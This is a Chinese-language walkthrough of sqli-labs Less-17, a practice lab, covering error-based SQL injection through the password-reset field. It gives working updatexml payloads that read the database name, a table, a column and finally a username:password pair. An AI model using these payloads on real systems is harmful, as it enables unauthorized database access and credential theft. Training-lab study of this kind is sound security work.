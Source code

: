 ```yaml
---
title: Less - 17
date: 2023-03-15T12:23:30Z
lastmod: 2023-03-15T12:39:01Z
---
```


# Less - 17

---

# 通关教程

---

## 1、判断注入点

---

17关输入用户名的位置是没有注入点的，所以我们在更改密码的位置判断注入点

```html
uname=admin&passwd=admin'&submit=Submit #有完整错误回显
```

​![image](assets/image-20230315122836-k0prf0m.png)​

所以这里我们使用报错注入攻击

---

## 2、查看当前数据库

---

```html
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(database()),0x7e),1)#&submit=Submit
```

​![image](assets/image-20230315122930-gt41pdu.png)​

---

## 3、查看security库下的第一张表

---

```html
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)#&submit=Submit
```

​![image](assets/image-20230315123142-lsr83i1.png)​

---

## 4、查看users表下的第一个字段

---

```html
uname=admin&passwd=a' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)#&submit=Submit
```

​![image](assets/image-20230315123243-9p2hv5a.png)​

---

## 5、查看username和password字段的第一个值

---

```html
uname=admin&passwd=a' OR (updatexml(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)),1))#&submit=Submit
```

​![image](assets/image-20230315123736-h51xh8p.png)​

这里我们无法直接从 users 表拿数据，我们可以先用一个表暂存从 users 表中取出所有数据的查询，然后再从这个暂存的表中取出数据。构造出的 payload 如下，思路就是利用一个查询从另一个查询中取出数据，以此绕过表的限制。
